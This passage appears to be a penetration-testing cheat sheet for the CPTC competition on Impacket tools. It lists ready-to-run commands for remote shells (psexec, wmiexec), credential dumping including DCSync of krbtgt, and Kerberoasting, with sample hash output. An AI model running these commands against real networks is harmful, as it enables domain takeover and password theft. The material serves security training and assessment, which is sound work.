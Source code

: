 **CPTC Recommendation:** Try psexec.py first, use wmiexec.py if blocked

---

## Evidence Collection

**For every Impacket command, save:**

1. **Command used:**
```bash
impacket-secretsdump 'CORP/administrator:Password123@10.10.10.10' -just-dc
```

2. **Output (screenshot or copy):**
```
[*] Dumping Domain Credentials
CORP\Administrator:500:aad3...:::
CORP\krbtgt:502:aad3...:::
[+] Dumped 125 users
```

3. **Impact statement:**
```
Domain Administrator credentials obtained via DCSync attack.
Full domain compromise achieved. All user password hashes extracted.
```

---

## Time Budgets

| Task | Expected Time | If Taking Longer |
|------|---------------|------------------|
| psexec shell | 10 seconds | Check firewall, try wmiexec |
| secretsdump local | 30 seconds | Normal |
| secretsdump DCSync | 1-2 minutes | Normal for large domains |
| Kerberoasting | 30 seconds | Normal |
| Cracking SPNs | 5 min - 2 hours | Leave in background |
| AS-REP roasting | 1 minute | Normal |

---

## Quick Command Reference

```bash
# RCE
impacket-psexec 'CORP/admin:pass@IP'
impacket-psexec -hashes ':HASH' 'admin@IP'
impacket-wmiexec 'CORP/admin:pass@IP'
impacket-atexec 'CORP/admin:pass@IP' 'whoami'

# Credential Dumping
impacket-secretsdump 'CORP/admin:pass@IP'
impacket-secretsdump -hashes ':HASH' 'admin@IP'
impacket-secretsdump 'CORP/admin:pass@DC' -just-dc
impacket-secretsdump 'CORP/admin:pass@DC' -just-dc-user krbtgt

# Kerberos Attacks
impacket-GetUserSPNs -request -dc-ip DC-IP 'CORP/user:pass'
impacket-GetNPUsers CORP/ -usersfile users.txt -dc-ip DC-IP
impacket-getTGT 'CORP/user:pass' -dc-ip DC-IP

```